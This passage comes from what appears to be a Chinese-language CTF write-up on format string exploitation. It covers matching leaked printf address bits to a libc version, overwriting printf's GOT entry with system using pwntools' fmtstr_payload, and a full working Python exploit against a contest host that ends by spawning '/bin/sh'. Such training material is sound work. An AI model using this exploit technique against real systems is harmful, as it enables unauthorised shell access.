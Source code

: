 然后，我使用libcdatabase内置的add功能脚本，将上述所有libc文件都导入了进去。由于该功能会解析每个libc文件，故时间比较长，但一劳永逸，以后就可以直接用find功能脚本来快速查找比对了。当然，如果有哪些libc文件没有导入进去，我们也可以直接用pwntools的ELF模块来解析并比对后12bit。

通过以上工作，结合泄漏出来的printf函数实际地址的后12bit（即0xc70），我们可以匹配到很多libc文件，如下图所示，如libc6-i386-2.19-18+deb8u3-lib32-libc-2.19.so；再用alarm等其他库函数的后12bit进一步校正，即可获知最终版本，从而获取到相应偏移，具体见下面的代码。

[![](https://p3.ssl.qhimg.com/t019f8d5e85a92ea28f.png)](https://p3.ssl.qhimg.com/t019f8d5e85a92ea28f.png)

**3.5 获取shell**

得到了libc版本，我们就可以确定各个库函数的偏移，从而可以得到system函数地址，并借助格式化字符串漏洞用其替换掉目标程序GOT表中的printf地址。当目标程序进入下一次循环后，我们用“/bin/sh”作为输入，由于此时printf的GOT地址处其实保存的是system函数地址，则调用printf(“/bin/sh”)时，其实就是调用的system(“/bin/sh”)，shell也就获取到了。

通过《格式化字符串漏洞利用小结（一）》，我们比较深入的理解了格式化字符串漏洞的原理与手工构造payload的方法。这时，也可以通过pwntools的fmtstr_payload功能来简化格式化字符串漏洞利用，不用再自己一点一点小心地构造payload，而交给pwntools来自动完成。

具体使用的就是如下函数。

```
fmtstr_payload(offset, writes, numbwritten=0, write_size='byte')
```

第一个参数表示格式化字符串的偏移，这里已经知道是4；

第二个参数表示需要利用%n写入的数据，采用字典形式，我们要将printf的GOT数据改为system函数地址，就写成`{`printfGOT: systemAddress`}`；

第三个参数表示已经输出的字符个数，这里没有，为0，采用默认值即可；

第四个参数表示写入方式，是按字节（byte）、按双字节（short）还是按四字节（int），对应着hhn、hn和n，默认值是byte，即按hhn写。

fmtstr_payload函数返回的就是payload，具体结果你可以print出来看看，和你自己手工构造的一不一样。

以下就是具体的利用代码。

```
from pwn import *
import binascii
p = remote("ctf.sharif.edu", 54518, timeout=1)
printfGOT = 0x0804995c
printfOffset = 0x4cc70
systemOffset = 0x3e3e0
p.sendline("%5$s" + p32(printfGOT))
print p.recvline()
data = p.recv()
printfAddress = data[0:4][::-1]
printfAddress = int(binascii.hexlify(printfAddress),16)
systemAddress = printfAddress - printfOffset + systemOffset
print "printf:", hex(printfAddress)
print "system:", hex(systemAddress)
payload = fmtstr_payload(4, `{`printfGOT: systemAddress`}`)
p.sendline(payload)
print p.recvline()
print p.recv()
p.sendline("/bin/sh")
print p.recvline()
p.interactive()
```
